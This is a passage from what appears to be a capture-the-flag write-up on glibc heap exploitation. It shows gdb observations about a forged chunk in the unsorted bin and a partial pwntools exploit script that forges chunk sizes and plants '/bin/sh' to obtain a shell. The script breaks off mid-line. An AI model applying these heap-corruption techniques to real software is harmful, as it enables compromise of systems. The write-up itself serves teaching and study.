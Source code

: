 ![gdb output 5](imgs/gdb_out5.png)

We can indeed se that the `mchunkptr` points to a chunk with a valid size and `prev_inuse` bit set, and it is inside the virtual address space of out binary.

But something even more magic is going to happen when we pop this chunk from the unsorted bin let's try with following `exploit.py`:

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, flat({
    0xe8: p64(0x21),
    0xe8+0x20: p64(0x21)
}, filler=b"C"))
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)

create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
delete(1)
delete(2)

create(1, 0x5f0, flat({
    0x0: b"/bin/sh\x00",
    0x500: p64(0x0),
    0x508: p64(0x511),
    0x510: p64(mem-0x18),
```